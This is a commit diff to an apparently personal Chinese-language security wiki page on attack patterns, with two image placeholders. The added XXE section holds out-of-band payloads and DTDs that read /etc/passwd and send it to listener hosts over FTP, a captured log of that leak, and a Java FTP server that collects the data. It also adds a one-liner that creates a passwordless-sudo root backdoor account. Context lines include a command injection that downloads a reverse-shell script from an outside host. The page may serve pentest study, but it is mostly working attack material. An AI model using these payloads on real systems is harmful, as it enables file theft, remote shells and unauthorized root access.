

Before and after one commit to islibra/wiki, an MkDocs documentation site: the page built from docs/security/attack_pattern.md, in a window 1280 px wide and 1400 px high, scrolled down 5135 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update attack_pattern.md

````diff
--- a/docs/security/attack_pattern.md
+++ b/docs/security/attack_pattern.md
@@ -153,6 +153,141 @@ if(token != null && token.equals(req_token)) {
     - `http://127.0.0.1/jmx-console/?name=jboss.system:service=MainDeployer&methodIndex=17&{==arg0=http://our_public_internet_server/utils/cmd.war==}`
 1. 请求非http协议, 读取本地文件, 如: `file:///etc/passwd`。
 1. 间接获取内置帐号token。
+
+
+## XXE(XML External Entity attack)
+
+!!! note "DTD: Document Type Definition, XML文件的模板, 定义XML文件中的元素, 元素的属性, 元素的排列方式, 元素包含的内容等"
+
+### 验证步骤
+
+1. 是否存在 **XML解析**
+    - 存在Office2007及以上版本文件导入功能
+    - SOAP接口, 如Apache CXF或axis实现的WebService接口
+
+1. 是否存在漏洞
+    - 检查poi-x.x.jar是否为3.10.1之前的版本
+
+1. 本地启动 **http服务**: `python -m http.server 8888 --bind 192.168.1.1`
+1. 使用WinRAR打开xlsx文件, 编辑[Content_Types].xml
+    1. 是否支持解析内部实体(未报错)
+
+        > 实体: 定义引用普通文本或特殊字符的快捷方式的变量
+
+        ```xml hl_lines="3 5"
+        <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
+        <!DOCTYPE root [
+            <!ENTITY test "testString">
+        ]>
+        <root>&test;</root>
+        ```
+
+    1. 是否支持解析外部实体
+
+        ```xml hl_lines="3"
+        <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
+        <!DOCTYPE root [
+        	<!ELEMENT test SYSTEM "http://192.168.1.1/test.dtd">
+        ]>
+        <root>&test;</root>
+        ```
+
+1. 导入xlsx文件后, 接收到 **http请求**
+1. 另一种POC
+
+    ```xml
+    <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
+    <!DOCTYPE root [
+    	<!ENTITY % q SYSTEM "http://10.21.151.32:8888/test.dtd">
+    	%q;
+    ]>
+    <root></root>
+    ```
+
+1. http服务存放dtd文件
+
+    ```dtd
+    <!ENTITY % p1 SYSTEM "file:///etc/passwd">
+    <!ENTITY % p2 "<!ENTITY &#x25; e1 SYSTEM 'ftp://192.168.1.1:21/%p1;'>">
+    %p2;
+    %e1;
+    ```
+
+    或
+
+    ```xml
+    <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
+    <!DOCTYPE root [
+    	<!ENTITY % q SYSTEM "http://10.21.151.32:8888/test.dtd">
+    	%q;
+    	%p;
+    ]>
+    <root>&exfil;</root>
+    ```
+
+    ```dtd
+    <!ENTITY % data SYSTEM "file:///etc/passwd">
+    <!ENTITY % p "<!ENTITY exfil SYSTEM 'ftp://10.21.151.32:21/%data;'>">
+    ```
+
+1. 使用IPOP开启 **ftp服务**, 导入xlsx文件, 接收到请求
+
+    ``` hl_lines="9"
+    ![2019/11/18 11:40:09] x.x.x.x:35914 connected
+    < x.x.x.x USER anonymous
+    > x.x.x.x 331 Password required for anonymous.
+    < x.x.x.x PASS Java1.8.0_201@
+    ! x.x.x.x User "anonymous" is authenticated
+    > x.x.x.x 230 User anonymous logged in.
+    < x.x.x.x TYPE I
+    > x.x.x.x 200 Type set to I.
+    < x.x.x.x CWD root:x:0:0:root:
+    > x.x.x.x 501 CWD failed. Invalid directory name syntax
+    < x.x.x.x QUIT
+    > x.x.x.x 221 Goodbye.
+    ![2019/11/18 11:40:09] x.x.x.x disconnected
+    ```
+
+1. 自定义FTPServer
+
+    ```java
+    import java.io.BufferedReader;
+    import java.io.IOException;
+    import java.io.InputStreamReader;
+    import java.io.PrintWriter;
+    import java.net.ServerSocket;
+    import java.net.Socket;
+
+    public class FtpServer {
+
+        public static void main(String args[]) throws IOException {
+            ServerSocket s = new ServerSocket(21);
+            Socket incoming = s.accept();
+            BufferedReader in = new BufferedReader(new InputStreamReader(incoming.getInputStream()));
+            PrintWriter out = new PrintWriter(incoming.getOutputStream(), true);
+            out.println("220 Ftp Server Running!");
+            System.out.println(in.readLine());
+            out.println("331 USER");
+            System.out.println(in.readLine());
+            out.println("230 Login In");
+            while (true) {
+                String str = in.readLine();
+                if (str != null && str.trim().toUpperCase().startsWith("QUIT")) {
+                    out.println("221 bye!");
+                    out.close();
+                    in.close();
+                    break;
+                } else if (str != null && str.trim().toUpperCase().startsWith("CWD")) {
+                    System.out.print("\n" + str.substring(3));
+                } else {
+                    System.out.print(str);
+                }
+    			out.println("200 OK!");
+            }
+        }
+    }
+    ```
+
 
 ## 反序列化
 
@@ -379,6 +514,11 @@ public interface UserMapper {
     1. 上传反弹shell脚本, 保存到指定路径: `xxx$(curl$IFS-o"/tmp/hhack.pl"$IFS"http://x.x.x.x:8888/hhack.pl")`
     1. 执行脚本: `xxx$(perl$IFS"/tmp/hhack.pl")`
 
+1. 找到可以提权到root的脚本, 创建帐号, 设置密码, 添加权限
+    ```sh
+    useradd xxx;echo password | passwd xxx --stdin &>/dev/null;echo "xxx ALL=(root) NOPASSWD: ALL" >> /etc/sudoers
+    ```
+
 ### 反弹shell
 
 reverse shell, 在控制端 **监听端口**, 被控端发起请求到该端口, 并将其命令行的输入输出转到控制端
````
